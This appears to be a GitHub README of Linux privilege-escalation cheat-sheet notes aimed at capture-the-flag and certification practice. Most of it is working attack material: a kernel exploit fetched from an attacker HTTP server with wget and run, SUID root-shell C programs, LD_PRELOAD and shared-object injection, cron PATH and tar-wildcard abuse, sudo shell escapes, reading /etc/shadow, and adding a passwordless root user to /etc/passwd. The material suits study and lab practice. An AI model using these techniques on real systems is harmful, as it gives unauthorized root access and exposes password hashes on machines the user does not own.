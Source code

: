 ### ***Linux Privilege Escalation Examples***

<details>
<summary>Kernel Exploits</summary>
 <br> 
Step 1: Identify & Search for Exploits
The first step is to identify potential exploits for the target system. You can use Searchsploit to find known vulnerabilities for the specific kernel version.
    
    uname -a #will print the Kernel Version
    searchsploit linux 3.13.0-24
This will list exploits relevant to the kernel version. In this case, the target kernel version is 3.13.0-24.
![image](https://github.com/user-attachments/assets/5629083f-a755-4c84-be78-db0c17a3e6fe)

Step 2: Locate the Exploit
Once you’ve identified a suitable exploit, use the locate command to find its full path and inspect the code.

    locate linux/local/37292.c
    cat /usr/share/exploitdb/exploits/linux/local/37292.c
This shows the contents of the exploit file, which you'll need to compile and execute.
![image](https://github.com/user-attachments/assets/3647680d-156d-453a-9f3b-8adb43c9396f)

Step 3: Check for Compiler and Permissions
Before proceeding with the exploit, ensure the necessary tools and permissions are available on the target system.

Check for GCC: Ensure that the GCC compiler is installed.

    which gcc
Check File Permissions: Verify that you have write permissions to the directory where you’ll save the exploit.

    ls -la
 ![image](https://github.com/user-attachments/assets/22116cd7-9f80-4db0-b85c-2120955a17bc)

Step 4: Copy and Rename the Exploit
Next, copy the exploit code to your Downloads folder and rename it to something like ofs.c.

    sudo cp /usr/share/exploitdb/exploits/linux/local/37292.c /home/kali/Downloads/
    mv 37292.c ofs.c
![image](https://github.com/user-attachments/assets/28fa1d5a-7532-42b9-bd10-1cfbabc9bcfa)

Step 5: Set Up an HTTP Server to Serve the Payload
On your attacker machine, start an HTTP server to serve the payload file (ofs.c) to the victim machine.

    updog -p 80
On the victim machine, use wget to download the exploit:

    wget http://10.6.42.239/ofs.c
![image](https://github.com/user-attachments/assets/b8dc99c8-d633-4f6c-a42c-8273b7f7e63f)

Step 6: Compile the Exploit
Now that the exploit is on the victim’s machine, compile the C code to create the binary that will escalate privileges.

    gcc ofs.c -o ofs
    ./ofs
Step 7: Verify Root Access
Once the exploit runs successfully, you should have root privileges. Verify by checking your user ID with whoami.

    whoami
You should see root, indicating that you’ve escalated to root privileges.
![image](https://github.com/user-attachments/assets/7729b24c-ccb3-49b2-af83-32e608213bcd)

Step 8: Locate the Flag
As a final step, search for the flag file on the system. You can use the following commands to locate and read the flag:

    find / -name flag1.txt 2>/dev/null
    cat /home/matt/flag1.txt
![image](https://github.com/user-attachments/assets/6fd0400a-4cff-4a01-a06d-1640757f4df3)

Summary
Privilege Escalation: This technique involves using kernel exploits to escalate user privileges.

Exploit Search: Use tools like Searchsploit to find relevant vulnerabilities for your target system.

Payload Delivery: Serve the payload using an HTTP server and download it on the target machine.

Compilation and Execution: Compile the C code and run it to gain root access.

Find and Read Flag: After gaining root privileges, locate the flag file to complete the task.


</details>
<details>
<summary>NFS</summary>
 <br> 

NFS allows a host to share file system resources over a network. Access Control is based on the server's file system, and on the uid/gid provided by the connecting client.

Root squashing maps files owned by root (uid 0) to a different ID (e.g. anonymous or nobody). If the "no_root_squash" option is enabled, files owned by root will not get mapped. This means that as long as you access the NFS share as a root (uid 0) user, you can write to the host file system as root.


    $ cat /etc/exports

    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

On your local machine, check that the NFS share is accessible:


    # showmount -e 10.0.0.1
    Export list for 10.0.0.1:
    /tmp *

On your local machine, make a directory to mount the remote share, and then mount it:


    # mkdir /tmp/mount
    # mount -o rw,vers=2 10.0.0.1:/tmp /tmp/mount
    # ls /tmp/mount
    backup.tar.gz  useless

Create an executable that calls /bin/bash with root level permissions in the mounted share and set the SUID bit:


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    # gcc -o rootsh rootsh.c
    # cp rootsh /tmp/mount
    # chmod +s /tmp/mount/rootsh

Now, back on the remote host, execute the executable to spawn a root shell:


    $ /tmp/rootsh
    #

Alternatively, on the remote host, copy the /bin/bash or /bin/sh binary to the NFS directory:


    $ cp /bin/bash /tmp

On your local machine, after mounting the NFS share, create new copies of the files (or chown them to root) and set the SUID/SGUID bits:


    # cp bash rootbash
    # chmod +s rootbash

    OR

    # chown root:root bash
    # chmod +s bash

Now, back on the remote host, run the file. For bash / sh, use the -p command line option to preserve the SUID/SGID (otherwise shell will simply spawn as your own user).


    $ /tmp/rootbash -p
    #

    OR

    $ /tmp/bash -p
    #
</details>

<details>
<summary>SUDO</summary>
 <br> 

Shell Escape Sequences
----------------------
Check Current Sudo Privileges
To check your current permissions related to sudo, you can use the following command:

    $ sudo -l
This will list the commands a user is allowed to run with sudo privileges. Based on this, an attacker may find a vulnerability to escalate privileges.
If a user has the ability to execute a command with sudo but doesn't have access to everything, we can search for payloads to leverage this.
search for payloads in https://gtfobins.github.io/

Exploit with Sudo
Assuming you can execute find with sudo, you can use the following command to spawn a shell with root privileges:

    sudo find . -exec /bin/sh \; -quit
![image](https://github.com/user-attachments/assets/1d174aff-f610-476e-bb4e-bb3d723280f9)

This command forces find to run a shell (/bin/sh) as root by using sudo. The -quit flag ensures that the find command stops executing immediately after spawning the shell.

Find Common Exploitable Binaries
Some binaries may be configured to allow root access when used with sudo. For example:

nano:
/usr/bin/nano is often a text editor installed on many Linux systems. If a user can run nano with root privileges, they can edit sensitive files, such as /etc/passwd.
![image](https://github.com/user-attachments/assets/e9e7c340-4896-4fe7-afec-00e1eb021b86)


less:
Similarly, less is a pager program, often used to view files. If improperly configured, it may allow privilege escalation:
![image](https://github.com/user-attachments/assets/ab8e392c-17f0-4c1e-be1d-61092cd8d27f)

Find the Flag
After successfully escalating privileges, you can search the system for the flag (or other sensitive files):

    find / -name flag.txt 2>/dev/null
Here, we look for a file called flag.txt and suppress any error messages.
![image](https://github.com/user-attachments/assets/d8883e72-a1a1-4fb4-bd40-dc2c3c781e46)

Find the Hash of Frank's Password
If the password file has been compromised or altered, you can often find hashes of user passwords, including Frank’s password:

      cat /etc/shadow | grep frank
Once you find the hash, you can try cracking it using tools like John the Ripper or Hashcat.
![image](https://github.com/user-attachments/assets/4ba1ec66-b320-40c7-8b8d-0d2d5fe25a1e)


Overwriting Files (Risky)
Warning: This command will overwrite important system files like /etc/passwd — don’t use this in production systems! This is useful only for Capture the Flag (CTF) scenarios or safe environments.

Here’s how you can potentially overwrite the /etc/passwd file to give yourself root access:
*** THIS WILL OVERWRITE THE PASSWD FILE, NOT A GOOD PRACTICE FOR CTF ***

    LFILE=/etc/passwd
    DATA='siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash\n'
    sudo find / -maxdepth 0 -fprintf "$LFILE" "$DATA"
Explanation:

This command creates a new user called siren in the /etc/passwd file with root privileges by adding a new line.

This could allow you to access the system as the siren user with root access. However, remember that overwriting critical system files can be dangerous.
Abusing Intended Functionality
------------------------------


    $ sudo apache2 -f /etc/shadow
    Syntax error on line 1 of /etc/shadow:
    Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration

</details>

<details>
<summary>LD_PRELOAD</summary>
 <br> 
Environment variables:

* LD_LIBRARY_PATH - A list of directories in which to search for RLF libraries at execution time.
* LD_PRELOAD - A list of additional, user-specified, ELF shared objects to be loaded before all others.

Sudo has the ability to preserve certain environment variables:


    $ sudo -l
    Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

Compile a shared object (.so) file:


    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -fPIC -shared -nostartfiles -o preload.so preload.c

Set the environment variable as part of the sudo command. The full path to the .so file needs to be used. Your user must be able to run the command via sudo.


    $ sudo LD_PRELOAD=/full/path/tp/preload.so apache2
    #
</details>

<details>
<summary>CORN JOB</summary>
 <br> 

Path
----

If PATH variable defined inside a crontab, and one of the paths is writable, and the cron job doesn't refer to an absolute path, we can exploit.


    $ cat /etc/crontab
    SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    * * * * * root overwrite.sh

In the example above, /home/user is in the PATH and our user can write to it.

Create a /home/user/overwrite.sh script which makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Make the script executable:


    $ chmod +x /home/user/overwrite.sh

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #

Wildcards
---------

If the cron job script contains bash wildcards that reference files, and we can create files in the relevant directory, it may be possible to create files with filenames that can be used as command line flags.


    $ cat /etc/crontab
    ...
    * * * * * root /usr/local/bin/compress.sh


    $ cat /usr/local/bin/compress.sh
    #!/bin/sh
    cd /home/user
    tar czf /tmp/backup.tar.gz *

The tar executable has a checkpoint feature which displays progress messages every specific number of records. It also allows users to define an action that is executed during the checkpoint.

Create a script (runme.sh) which makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Make the script executable:


    $ chmod +x runme.sh

Create two files in the directory that the tar command is run in, with the filename set to the full command line options:


    touch /home/user/--checkpoint=1
    touch /home/user/--checkpoint-action=exec=sh\ runme.sh

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #

File Overwrite
--------------

If a cron job script is writable, we can modify it and run commands as root:


    $ cat /etc/crontab
    ...
    * * * * * root overwrite.sh


    $ locate overwrite.sh
    /usr/local/bin/overwrite.sh
    $ ls -l /usr/local/bin/overwrite.sh
    -rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh

The /usr/local/bin/overwrite.sh file is world-writable.

Overwrite the /usr/local/bin/overwrite.sh script with one that makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #

File Permissions
================

Writable /etc/passwd
--------------------

On some \*nix distributions, if /etc/passwd is writable, we can add a new root user with no password, since the only thing that matters is the uid being 0:


    $ echo newroot::0:0:root:/root:/bin/bash >> /etc/passwd

Now use su to switch user:


    $ su newroot
    #


</details>

<details>
<summary>SUID Binaries</summary>
 <br> 
Shared Object Injection
^^^^^^^^^^^^^^^^^^^^^^^

Shared Objects (.so) are the \*nix equivalent of Windows DLLs. If a program references a shared object that we can write to (even if it doesn't exist) we can run commands with the user context of the application.

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwsr-sr-x 1 root root 16664 Feb  9 13:43 /tmp/rootsh
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strace to find references to shared objects:


    $ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
    access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY)      = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libdl.so.2", O_RDONLY)       = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libm.so.6", O_RDONLY)        = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libc.so.6", O_RDONLY)        = 3
    open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

The shared object /home/user/.config/libcalc.so is referenced, but it doesn't exist. Luckily it is in a writable directory.

Create a C program (libcalc.c) and compile it to a shared object:


    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));
    void inject() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -shared -fPIC -o libcalc.so libcalc.c

Move the libcalc.so shared object to the path referenced by the SUID binary:


    $ mkdir -p /home/user/.config
    $ cp libcalc.so /home/user/.config/libcalc.so

Now run the SUID binary, it should give you a root shell immediately:


    $ suid-so
    Calculating something, please wait...
    root@debian:~# 

Symlink
^^^^^^^

TODO

Environment Variables - Relative Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env
    /lib64/ld-linux-x86-64.so.2
    5q;Xq
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    service apache2 start

The "service" command doesn't have an absolute path. When it is called, \*nix will try to find it by traversing the PATH environment variable. We can modify the PATH variable and create a malicious version of the service binary which will spawn a root shell when it is run.

First create a C program (service.c):


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }

Compile it to our malicious binary:


    $ gcc -o /tmp/service service.c

Add /tmp to the start of the PATH environment variable and export it:


    $ export PATH=/tmp:$PATH

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env
    #

Environment Variables - Absolute Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env2
    /lib64/ld-linux-x86-64.so.2
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    /usr/sbin/service apache2 start

The /usr/sbin/service command seems to be interesting, however it has an absolute path and cannot be edited.

Some versions of Bash (<4.2-048) and Dash let you define functions with the same name as an absolute path. These then take precedent above the actual executable themselves.

Define a bash function "/usr/sbin/service" that creates an SUID/SGID version of bash:


    $ function /usr/sbin/service() { cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p;}

Export the new function:


    $ export -f /usr/sbin/service

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env2
    #

Bash also supports a script debugging mode, and uses the PS4 environment variable to define a prompt for the debugging mode.

We can get an instance root shell:


    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash && chown root:root /tmp/rootbash && chmod +s /tmp/rootbash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/rootbash -p'

Startup Scripts
---------------

Startup scripts are stored under /etc/init.d, and are usually run with elevated privileges.

Find world-writable startup scripts:


    $ find /etc/init.d -perm -o+w -type f -exec ls -l {} \; 2>/dev/null
    -rwxr-xrwx 1 root root 801 May 14  2017 /etc/init.d/rc.local

Edit the script and add some code that creates an SUID/SGID bash shell:


    cp /bin/bash /tmp/rootbash
    chown root:root /tmp/rootbash
    chmod +s /tmp/rootbash

Now restart the remote host, and once the host is restarted, spawn a root shell:


    $ /tmp/rootbash -p
    #

Configuration Files
-------------------

Configuration files are usually stored in /etc.

Check writable files to see if we can introduce misconfigurations (e.g. if /etc/exports is writable, we can define NFS shares with root squashing turned off).

##########################
Linux Privilege Escalation
##########################

* https://github.com/mubix/post-exploitation
* https://github.com/spencerdodd/kernelpop
* https://github.com/SecWiki/linux-kernel-exploits
* https://www.google.com/search?q=kernel+exploits
* https://github.com/NullArray/RootHelper
* https://greysec.net/showthread.php?tid=1355
* https://github.com/DominicBreuker/pspy
* https://touhidshaikh.com/blog/?p=790
* http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/
* https://gtfobins.github.io/
* https://guif.re/linuxeop
* https://github.com/sagishahar/lpeworkshop
* https://github.com/codingo/OSCP-2
* https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/
* https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
* https://docs.ansible.com/ansible/latest/user_guide/become.html
* https://payatu.com/guide-linux-privilege-escalation/
* https://github.com/Arrexel/phpbash
